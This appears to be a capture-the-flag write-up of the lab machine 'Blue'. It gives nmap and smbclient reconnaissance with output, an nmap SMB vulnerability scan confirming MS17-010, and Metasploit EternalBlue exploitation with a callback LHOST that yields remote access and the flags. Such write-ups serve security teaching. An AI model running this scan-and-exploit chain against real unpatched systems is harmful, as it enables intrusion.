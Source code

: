 # Blue

## Recon
I start by scanning the machine with nmap: `nmap -sV -sC -Pn 10.10.10.40 `. After a few moments, the output shows:
```
└─$ nmap -sV -sC -Pn 10.10.10.40 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-22 02:31 EDT
Nmap scan report for 10.10.10.40
Host is up (0.30s latency).
Not shown: 991 closed tcp ports (conn-refused)
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

That is a lot of MSRPC services running on a lot of open ports, however, the first thing that catches my eye is SMB (Server Messaging Block) open and running on port 445. For those that don't know, SMB is used for file hosting and sharing, and since it's open, I can have a look at what's in this directory.

I enter the command `smbclient -L 10.10.10.40` and see the following:
```
     Sharename       Type      Comment
     ---------       ----      -------
     ADMIN$          Disk      Remote Admin
     C$              Disk      Default share
     IPC$            IPC       Remote IPC
     Share           Disk      
     Users           Disk
```

After browswing SMB on this machine, I found that most directories are either empty or restricted, leaving me empty handed. The recon on this port does not stop here though, we can use nmap to scan for vulnerabilities on this port as well. To do this we'll use `nmap -Pn -p 445 --script smb-vuln-* 10.10.10.40`. Nmap can be loaded with many script to be run alongside port scannig. In this command we're scanning port 445 specifically, and attempting to run any smb vulnerability script against it on the target machine. Doing so shows this:
```
Host script results:
|_smb-vuln-ms10-061: NT_STATUS_OBJECT_NAME_NOT_FOUND
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_smb-vuln-ms10-054: false
```
The machine is vulberable to MS17-010/CVE-2017-0143, aka EternalBlue.

### EternalBlue
EternalBlue was initially developed by the NSA, but was leaked after a successful cyber attack against them. The exploit sends specially crafted packets to the target server which can lead to RCE, randsomware and worm-like attempts at infiltration. 

The most well-known attack utilizing EternalBlue to date is the WannaCry ransomware attacks. 

Although this exploit has been patched out in many versions of Windows, if the software update has not been installed, the system is still vulnerable.

## Foothold and RCE
To deploy EternalBLue to our target, I decided to use Metasploit. I loaded `exploit/windows/smb/ms17_010_eternalblue`, set RHOSTS 10.10.10.40 and LHOST to 10.10.14.8 (my ip address) and run the exploit. Within seconds I had remote access to the machine. Scary!

From here I collected the user flag from `C:\Users\haris\Desktop` and the system flag from `C:\Users\Administrator\Desktop`
